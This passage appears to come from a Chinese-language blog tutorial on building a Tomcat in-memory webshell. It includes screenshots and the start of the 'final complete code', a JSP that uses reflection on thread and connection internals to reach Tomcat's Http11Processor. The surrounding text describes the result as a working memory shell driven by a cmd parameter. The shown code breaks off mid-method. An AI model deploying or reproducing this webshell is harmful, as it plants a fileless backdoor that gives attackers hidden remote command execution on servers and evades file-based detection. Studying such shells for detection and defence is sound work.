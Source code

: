 ![image-20230215155126589](https://laughing-markdown-pics.oss-cn-shenzhen.aliyuncs.com/image-20230215155126589.png)

自此，它已经是一个成熟的内存马了。

![image-20230215155919300](https://laughing-markdown-pics.oss-cn-shenzhen.aliyuncs.com/image-20230215155919300.png)

没有cmd参数呢？也是正常的啦。

![image-20230215160056496](https://laughing-markdown-pics.oss-cn-shenzhen.aliyuncs.com/image-20230215160056496.png)



# 最终完整代码

```jsp
<%@ page import="org.apache.coyote.Adapter" %>
<%@ page import="org.apache.coyote.http11.Http11Processor" %>
<%@ page import="java.util.concurrent.ConcurrentHashMap" %>
<%@ page import="java.lang.reflect.Method" %>
<%@ page import="java.lang.reflect.Field" %>
<%@ page import="java.lang.reflect.Array" %>
<%@ page import="org.apache.catalina.connector.Connector" %>
<%@ page import="org.apache.catalina.connector.CoyoteAdapter" %>
<%@ page import="org.apache.coyote.Request" %>
<%@ page import="org.apache.coyote.Response" %>
<%@ page import="java.io.UnsupportedEncodingException" %><%--
  Created by IntelliJ IDEA.
  User: xieyaowei
  Date: 2023/2/15
  Time: 16:04
  To change this template use File | Settings | File Templates.
--%>
<%@ page contentType="text/html;charset=UTF-8" language="java" %>
<%!
    // 拿到唯一的 Http11Processor
    public Http11Processor getHttp11Processor() {
        // 获取当前线程的所有线程
        Thread[] threads = (Thread[]) getField(Thread.currentThread().getThreadGroup(), "threads");
        for (Thread thread : threads) {
            try {
                // 需要获取线程的特征包含Acceptor
                if (thread.getName().contains("Acceptor") && thread.getName().contains("http-nio")) {
                    ConcurrentHashMap connections  = (ConcurrentHashMap) getField(getField(getField(getField(thread, "target"),"this$0"),"handler"),"connections");
                    // 拿到内部类对象
                    Class node = Class.forName("java.util.concurrent.ConcurrentHashMap$Node");
                    // 正好可以用此方法获取value
                    Method method = node.getMethod("getValue");
                    method.setAccessible(true);
                    Field table = ConcurrentHashMap.class.getDeclaredField("table");
                    table.setAccessible(true);
                    // Array.getLength(table.get(connections)) 是内部类对象数组的长度
                    for(int i = 0; i < Array.getLength(table.get(connections)); i++){
                        Object obj = Array.get(table.get(connections),i);
                        if (obj!=null){
                            Http11Processor res = (Http11Processor) method.invoke(obj);
                            return res;
                        }
                    }
                }
            } catch (Exception e) {
                continue;
            }
```
